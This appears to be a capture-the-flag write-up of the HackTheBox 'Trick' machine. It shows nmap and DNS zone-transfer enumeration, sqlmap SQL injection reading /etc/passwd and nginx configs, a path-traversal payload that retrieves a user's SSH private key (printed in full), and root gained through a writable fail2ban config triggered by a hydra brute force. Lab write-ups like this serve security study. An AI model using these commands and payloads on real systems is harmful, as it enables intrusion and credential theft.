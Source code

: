 ```yaml
---
layout: post
title: "Trick"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



as always starting with nmap
```bash
sudo nmap -sC -sV -T4 -oN nmap_trick -p- 10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124022.png)


we got 4 open ports , the 80 hosting a static web page without any interesting functionalities , and we can't really do anything with `SMTP` other than enumerating users .
let's enumerate `DNS` 

using `nslookup` we got a domain
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124718.png)

I will add it to the `/etc/hosts` and use it to get more infos from the `DNS`
using DNS zone transfer we got a new domain 
```bash
dig axfr trick.htb  @10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125242.png)

looks like a CMS , quick google show us that there's potential `sqli`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125707.png)

[exploit](https://www.exploit-db.com/exploits/50802) , the public exploit didn't work , I will use `sqlmap`  

![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130050.png)

`sqli` confirmed

```bash
sqlmap -r sqltest.txt --dump
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130144.png)

the informations we got from the sqli until now , are not helpful , I tried to get shell but that didn't work , so let's try to read files
```bash
sqlmap -r sqltest.txt --file-read "/etc/passwd"
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130532.png)
we can read files 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130623.png)

try different files but nothing useful , let's try to read the `nginx` files
```bash
sqlmap -r sqltest.txt --file-read "/etc/nginx/sites-available/default"
```
new vhosts
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131428.png)

let's add it to the `/etc/hosts`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131650.png)

potential `lfi`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131712.png)

after testing different payloads , I got this 
`...//....//....//....//....//....//....//....//....//etc/passwd`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131900.png)

`....//....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa`

```
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```



`sudo -l`
we can restart the `fail2ban service`` , let's check the configuration files of the service
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619132806.png)

we have write access over this folder 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133027.png)

 I found this [blog and I followed it to get root]
 (https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
I will add a malicious code in the `iptables-multiport.conf file
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133547.png)

and I will restart the `fail2ban servcie` and bruteforce the ssh to trigger `the action ban`

```bash 
sudo /etc/init.d/fail2ban restart
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619134109.png)

```bash
hydra -l idk -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ssh://10.10.11.166
```
once I will get banned , I will get root xD
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135009.png)


![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135036.png)